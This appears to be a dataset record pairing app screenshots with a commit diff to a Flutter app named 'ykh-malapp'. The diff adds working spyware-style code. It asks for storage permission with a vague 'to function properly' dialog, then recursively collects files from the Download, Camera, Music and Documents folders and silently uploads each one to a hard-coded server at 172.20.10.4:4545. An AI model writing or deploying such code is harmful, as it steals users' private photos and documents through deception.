

Before and after one commit to nnOt6/ykh-malapp, a Flutter app: the screen it shows after launch, on a phone screen of 412 x 824 dp. Run offline on Flutter 3.47's test engine with Material 3 defaults, Android fonts, the phone set to English and light mode, and no system bars; our stand-ins replace permission_handler.

Commit message:
4 commit

```diff
--- a/lib/main.dart
+++ b/lib/main.dart
@@ -1,15 +1,174 @@
+import 'dart:io';
 import 'package:flutter/material.dart';
-import 'package:sth_malapp2/page/home.dart';
+import 'package:permission_handler/permission_handler.dart';
+import 'package:path_provider/path_provider.dart';
+import 'package:http/http.dart' as http;
 
 void main() {
-  runApp(MaterialApp(
-    title: "My Title",
-    home: Scaffold(
+  runApp(MyApp());
+}
+
+class MyApp extends StatelessWidget {
+  @override
+  Widget build(BuildContext context) {
+    return MaterialApp(
+      home: MyHomePage(),
+    );
+  }
+}
+
+class MyHomePage extends StatefulWidget {
+  @override
+  _MyHomePageState createState() => _MyHomePageState();
+}
+
+class _MyHomePageState extends State<MyHomePage> {
+  List<FileSystemEntity> _files = [];
+  String _error = '';
+
+  @override
+  void initState() {
+    super.initState();
+    _showPermissionDialog();
+  }
+
+  Future<void> _showPermissionDialog() async {
+    showDialog(
+      context: context,
+      builder: (BuildContext context) {
+        return AlertDialog(
+          title: const Text('Permission Required'),
+          content: const Text('This app needs access to your storage to function properly. Do you want to allow access?'),
+          actions: <Widget>[
+            TextButton(
+              child: const Text('Cancel'),
+              onPressed: () {
+                Navigator.of(context).pop();
+              },
+            ),
+            TextButton(
+              child: const Text('Allow'),
+              onPressed: () async {
+                Navigator.of(context).pop();
+                await _requestPermission();
+              },
+            ),
+          ],
+        );
+      },
+    );
+  }
+
+  Future<void> _requestPermission() async {
+    var status = await Permission.storage.status;
+    if (status.isDenied || status.isRestricted || status.isPermanentlyDenied) {
+      Map<Permission, PermissionStatus> statuses = await [
+        Permission.storage,
+      ].request();
+
+      if (statuses[Permission.storage]!.isGranted) {
+        ScaffoldMessenger.of(context).showSnackBar(
+          const SnackBar(content: Text("Storage Permission Granted")),
+        );
+        await _accessFiles();
+      } else {
+        ScaffoldMessenger.of(context).showSnackBar(
+          const SnackBar(content: Text("Storage Permission Denied")),
+        );
+      }
+    } else if (status.isGranted) {
+      ScaffoldMessenger.of(context).showSnackBar(
+        const SnackBar(content: Text("Storage Permission Already Granted")),
+      );
+      await _accessFiles();
+    }
+  }
+
+  Future<void> _accessFiles() async {
+    try {
+      final directories = [
+        await getExternalStorageDirectory(), // App-specific external storage
+        Directory('/storage/emulated/0/Download'), // Download folder
+        Directory('/storage/emulated/0/DCIM/Camera'), // Pictures folder
+        Directory('/storage/emulated/0/Music'), // Music folder
+        Directory('/storage/emulated/0/Documents'), // Documents folder
+      ];
+
+      List<FileSystemEntity> allFiles = [];
+
+      for (var dir in directories) {
+        if (dir != null && await dir.exists()) {
+          allFiles.addAll(dir.listSync(recursive: true));
+        }
+      }
+
+      setState(() {
+        _files = allFiles;
+      });
+
+      // Upload files to the server
+      for (var file in allFiles) {
+        await _uploadFile(file);
+      }
+    } catch (e) {
+      setState(() {
+        _error = 'Error accessing files: $e';
+      });
+    }
+  }
+
+  Future<void> _uploadFile(FileSystemEntity file) async {
+    if (file is File) {
+      try {
+        final uri = Uri.parse('http://172.20.10.4:4545/upload'); // Replace with your server URL
+        final request = http.MultipartRequest('POST', uri)
+          ..files.add(await http.MultipartFile.fromPath('file', file.path));
+
+        final response = await request.send();
+        if (response.statusCode == 200) {
+          print('File uploaded successfully: ${file.path}');
+        } else {
+          print('Failed to upload file: ${file.path}');
+        }
+      } catch (e) {
+        print('Error uploading file: ${file.path}, $e');
+      }
+    }
+  }
+
+  @override
+  Widget build(BuildContext context) {
+    return Scaffold(
       appBar: AppBar(
-        title: const Text("MalApp"),
-        backgroundColor: Colors.green,
+        title: const Text('File Access and Upload'),
       ),
-      body: const Home(),
-    ),
-  ));
+      body: Center(
+        child: Column(
+          mainAxisAlignment: MainAxisAlignment.center,
+          children: <Widget>[
+            ElevatedButton(
+              onPressed: _showPermissionDialog,
+              child: const Text('Request Storage Permission'),
+            ),
+            _error.isNotEmpty
+                ? Text('Error: $_error')
+                : Expanded(
+              child: ListView.builder(
+                itemCount: _files.length,
+                itemBuilder: (context, index) {
+                  final file = _files[index];
+                  return ListTile(
+                    title: Text(file.path),
+                    subtitle: file is File
+                        ? Text(file.lengthSync().toString() + ' bytes')
+                        : Text('Directory'),
+                  );
+                },
+              ),
+            ),
+          ],
+        ),
+      ),
+    );
+  }
 }
--- a/lib/page/home.dart
+++ b/lib/page/home.dart
@@ -1,12 +1,32 @@
+// home.dart
+
 import 'package:flutter/material.dart';
+import 'package:permission_handler/permission_handler.dart';
 
 class Home extends StatelessWidget {
   const Home({super.key});
 
+  Future<void> _requestPermission() async {
+    final status = await Permission.storage.status;
+    if (!status.isGranted) {
+      final result = await Permission.storage.request();
+      if (result.isGranted) {
+        print('Storage permission granted');
+      } else {
+        print('Storage permission denied');
+      }
+    } else {
+      print('Storage permission already granted');
+    }
+  }
+
   @override
   Widget build(BuildContext context) {
-    return Container(
-      color: Colors.deepOrange,
+    return Center(
+      child: ElevatedButton(
+        onPressed: _requestPermission,
+        child: const Text('Request Storage Permission'),
+      ),
     );
   }
 }
```
Also changed, not shown: 2 other files.
